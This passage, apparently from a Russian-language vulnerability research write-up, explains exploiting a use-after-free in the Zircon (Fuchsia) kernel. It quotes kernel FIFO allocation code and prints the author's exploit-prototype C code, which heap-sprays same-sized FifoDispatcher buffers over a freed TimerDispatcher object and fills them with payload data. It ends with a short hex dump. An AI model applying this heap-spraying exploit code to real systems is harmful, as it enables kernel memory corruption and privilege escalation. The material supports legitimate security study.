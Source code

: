 ```c++
  auto data0 = ktl::unique_ptr<uint8_t[]>(new (&ac) uint8_t[count * elemsize]);
  if (!ac.check())
    return ZX_ERR_NO_MEMORY;

  KernelHandle fifo0(fbl::AdoptRef(
      new (&ac) FifoDispatcher(ktl::move(holder0), options, static_cast<uint32_t>(count),
                               static_cast<uint32_t>(elemsize), ktl::move(data0))));
  if (!ac.check())
    return ZX_ERR_NO_MEMORY;
```

С помощью отладчика я определил, что размер освобожденного объекта `TimerDispatcher` составляет 248 байт. Я попробовал создать несколько FIFO-объектов такого же размера, и это сработало: в отладчике я увидел, что `TimerDispatcher` перезаписан данными одного из объектов `FifoDispatcher`! Вот код, выполняющий heap spraying в моем прототипе эксплойта:

```c
  printf("[!] do heap spraying...\n");

#define N 10
  zx_handle_t out0[N];
  zx_handle_t out1[N];
  size_t write_result = 0;

  for (int i = 0; i < N; i++) {
    status = zx_fifo_create(31, 8, 0, &out0[i], &out1[i]);
    if (status != ZX_OK) {
      printf("[-] creating a fifo %d failed\n", i);
      return 1;
    }
  }
```

Здесь системный вызов `zx_fifo_create()` выполняется десять раз. При каждом вызове создается пара очередей из 31 элемента по 8 байт. То есть при выполнении этого кода в ядре создается 20 объектов `FifoDispatcher` с буферами данных размером 248 байт. Zircon размещает один из этих буферов на месте освобожденного `TimerDispatcher`, который имел такой же размер.

Далее очереди наполняются данными, специально подготовленными для перезаписи содержимого объекта `TimerDispatcher`: их называют heap spraying payload.

```c
  for (int i = 0; i < N; i++) {
    status = zx_fifo_write(out0[i], 8, spray_data, 31, &write_result);
    if (status != ZX_OK || write_result != 31) {
      printf("[-] writing to fifo 0-%d failed, error %d, result %zu\n", i, status, write_result);
      return 1;
    }
    status = zx_fifo_write(out1[i], 8, spray_data, 31, &write_result);
    if (status != ZX_OK || write_result != 31) {
      printf("[-] writing to fifo 1-%d failed, error %d, result %zu\n", i, status, write_result);
      return 1;
    }
  }

  printf("[+] heap spraying is finished\n");
```


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4